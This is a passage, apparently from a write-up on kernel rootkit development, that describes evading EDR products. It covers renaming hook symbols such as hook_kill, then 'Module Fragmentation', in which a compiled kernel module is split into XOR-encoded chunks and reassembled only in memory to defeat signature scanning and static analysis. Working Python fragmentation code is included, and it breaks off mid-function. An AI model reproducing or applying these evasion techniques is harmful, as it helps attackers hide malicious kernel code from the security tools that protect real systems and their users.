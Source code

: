 The key insight: we sort by length descending to prevent partial matches. For example, if we have both hook_kill and hook_kill_ex, we must replace hook_kill_ex first to avoid breaking it into sys_abc_handler_ex.

# Evasion Technique 3: Module Fragmentation

### The Problem

EDR solutions scan loaded kernel modules in both memory and on-disk. A monolithic .ko file presents a single attack surface that's easy to analyze:

- Signature scanning of the entire module
- Static analysis of ELF structure
- Symbol table enumeration

### The Solution: Fragment + XOR Encoding + In-Memory Loading

We split the compiled module into encrypted chunks that are only reassembled in memory during loading. This technique breaks static analysis while maintaining functionality.

#### Fragmentation Pipeline:

```python
def fragment(self, chunk_size: int = 65536, encode: bool = True) -> List[bytes]:
    """
    Fragment the .ko into chunks
    
    Args:
        chunk_size: Size of each fragment (default: 64KB)
        encode: If True, apply XOR encoding
    
    Returns:
        List of fragments
    """
    print(f"\n[*] Fragmenting: {self.ko_path}")
    print(f"    Chunk size: {chunk_size} bytes")
    
    # Read the .ko file
    with open(self.ko_path, 'rb') as f:
        ko_data = f.read()
    
    original_size = len(ko_data)
    print(f"[+] Original size: {original_size} bytes")
    
    # Generate random XOR key
    xor_key = os.urandom(16) if encode else b'\x00' * 16
    
    # Fragment
    fragments = []
    num_chunks = (original_size + chunk_size - 1) // chunk_size
    
    for i in range(num_chunks):
        start = i * chunk_size
        end = min(start + chunk_size, original_size)
        chunk = ko_data[start:end]
        
        # Apply encoding if necessary
        if encode:
            chunk = self._xor_encode(chunk, xor_key)
        
        fragments.append(chunk)
        checksum = self._calculate_checksum(chunk)
        
```